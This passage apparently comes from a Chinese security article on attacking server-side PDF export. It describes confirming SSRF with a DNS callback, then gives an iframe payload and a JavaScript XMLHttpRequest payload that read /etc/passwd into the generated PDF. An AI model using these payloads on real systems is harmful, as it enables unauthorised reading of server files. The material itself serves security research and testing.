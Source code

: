   
出现代码手动插入  
payload  
,插入后等待  
DNS  
响应,响应成功代表是有  
SSRF  
请求了,再利用伪协议读取文件  
  
```
<img src="https://cdn.nlark.com/yuque/0/2025/svg/22621815/1746580510639-7332d640-7031-4964-8b00-f0932cd61bf9.svg" />
# file协议读文件
<iframe src="file:///etc/passwd" width=400height=400/>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5e83LaNw1FhbjOWOvLFCic8lu78a7WZmicWzRfq3PbZxLrrJOL6BaQmTw/640?wx_fmt=png&from=appmsg "")  
  
  
完整的攻击文章,从导出探测到可控之后尝试读取内网再读取内网文件,但亮点是正常是通过  
iframe  
标签但这里使用的  
JS  
代码读取,之后读取的文件内容会导出到  
PDF  
  
  
[XSS到任意文件读取](https://mp.weixin.qq.com/s?__biz=MzkyMTU3MDYxMA==&mid=2247495456&idx=1&sn=48242848a93aa3c17ecaf38e09b4d7a7&scene=21#wechat_redirect)  
  
  
  
导出  
PDF  
通过请求  
file  
协议读取文件,  
javascript  
将在服务器端执行，通过注入以下 代码从文件系统进行文件的读取  
  
```
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open('GET','file:///etc/passwd');
x.send();
</script>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5xgYtTQBATQ9hYDiaib0BzS52K1NZts7CP1ibEVIwMhUtbb1Fkic2bIKzYA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5YymgbbV98goYhNCqThmuDbaScTsV9J2Pkj8TIwV5T9WsjGRv7NsQwQ/640?wx_fmt=png&from=appmsg "")  
  
  
